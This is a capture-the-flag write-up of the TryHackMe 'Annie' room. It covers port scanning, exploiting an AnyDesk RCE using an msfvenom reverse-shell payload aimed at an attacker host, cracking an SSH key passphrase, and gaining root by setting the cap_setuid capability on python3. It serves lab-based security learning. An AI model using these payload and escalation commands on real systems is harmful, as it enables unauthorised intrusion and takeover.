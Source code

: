 https://tryhackme.com/room/annie

  ![image](https://user-images.githubusercontent.com/87700008/205995673-6be11335-a570-4cf0-9b72-a8829cf14cff.png)

Difficulty : Medium

**Initital Recon**:

Started with the quick rustscan, found 3 open ports :

    sudo rustscan -a 10.10.30.155 -- -sC -sV -T4 -vv -oN Annie_nmap
    Open 10.10.30.155:22
    Open 10.10.30.155:7070
    Open 10.10.30.155:33017
![image](https://user-images.githubusercontent.com/87700008/205996318-4065c13e-0675-48ef-85c8-c074b4befe3f.png)
![image](https://user-images.githubusercontent.com/87700008/205996442-54c654cf-20ec-488a-a3ba-215633d23693.png)

At the scan results I observed that there is AnyDesk client running on port **7070**. By looking at this I got some hint that tthis might be the point of initial access.

**Exploitation:**

I quckly searched for google with the AnyDesk 7070 exploit & got the results :
![image](https://user-images.githubusercontent.com/87700008/205997368-4f027e59-6d5b-42d1-841a-2b37990482e7.png)

Since, I don't have any version info I went with the first search result provied by exploit DB for version 5.5.2, ref : https://www.exploit-db.com/exploits/49613

This gave us the python exploit with Remote code execution : 
![image](https://user-images.githubusercontent.com/87700008/205998084-230664ca-cab9-4e28-b917-25c89e30c33b.png)

As per the exploit, we have to create our own shell code with msfvenom, so I created my own:

    msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.y.y LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
    
![image](https://user-images.githubusercontent.com/87700008/205999004-79da675d-5d3f-497d-a37f-943f488e95ff.png)

After many trial & error after many port lport change & many room reset, I finally received my connection on port 7070, on which AnyDesk is running.

![image](https://user-images.githubusercontent.com/87700008/207115160-8c796a68-db9d-4ded-9dd4-9b2e282a9bf8.png)

I received the connection as user "Annie":(pwn3d!🙂)
![image](https://user-images.githubusercontent.com/87700008/207115401-b8c97a4a-562b-4eab-bd57-902764e41393.png)

Now, it's time to upgrade & stablize the shell:

    python3 -c 'import pty;pty.spawn("/bin/bash")'
    export TERM=xterm
    stty raw -echo; fg (and press enter)

![image](https://user-images.githubusercontent.com/87700008/207116033-69dc62fb-4ff1-473b-866a-4c10ae6dc89c.png)

**User.txt**:

And, I got user flag into the home directory of the Annie itself.
![image](https://user-images.githubusercontent.com/87700008/207116581-e5d7d03c-4311-4300-91a4-30791fca00b0.png)

In the Annie's folder I found a folder name ".ssh" where annie's private key is saved in 'id_rsa', so I copied it to my machine & tried to SSH but failed as it's asking for passphrase.

![image](https://user-images.githubusercontent.com/87700008/207118225-6713da94-d6f1-4d46-994a-27b9c7c76c49.png)

So, I quickly used a John the ripper module "ssh2john" to convert the id_rsa file into John the ripper format & tried to crack it. And in few seconds I was able to crack it as well.
![image](https://user-images.githubusercontent.com/87700008/207118733-cd5e382a-38b9-463d-9b78-a34d61000487.png)


**Priv Esc:**

I started with manual enumeration, like checking sudo version, cron jobs, sudo permissions etc. But I found something unusual in SUID list that there is something called "/sbin/setcap"

    find / -perm -4000 -type f 2>/dev/null

![image](https://user-images.githubusercontent.com/87700008/207129417-22261939-7b7a-40c4-adda-8c28233965ff.png)

I quckly searched for "setcap priv esc" & landed onto this page : https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

As per the blog if have the permission of setting the capablities then we can change the capablities of python3(as expample) & get the root privleges.

![image](https://user-images.githubusercontent.com/87700008/207131042-22274936-bf6f-4397-8b5b-a254ed1dfde6.png)

So, for the Priv Esc I followed the blog & copied the python3 binary in /tmp folder:

    cp /usr/bin/python3 /tmp
    
Then changed the capablities of that python3 file:

    setcap cap_setuid+ep /tmp/python3
    
And run the Python3 to set my uid as 0 & execute bash shell:

    ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
    
This gave me the root privleges:(pwn3d!🙂)

![image](https://user-images.githubusercontent.com/87700008/207131735-9dcdb730-d448-41d3-b60c-145bdc8516b5.png)

**Root.txt**

After successfull execution I got the root flag in root folder.

![image](https://user-images.githubusercontent.com/87700008/207131957-673acab3-0976-4370-ab29-4973f18b2abc.png)
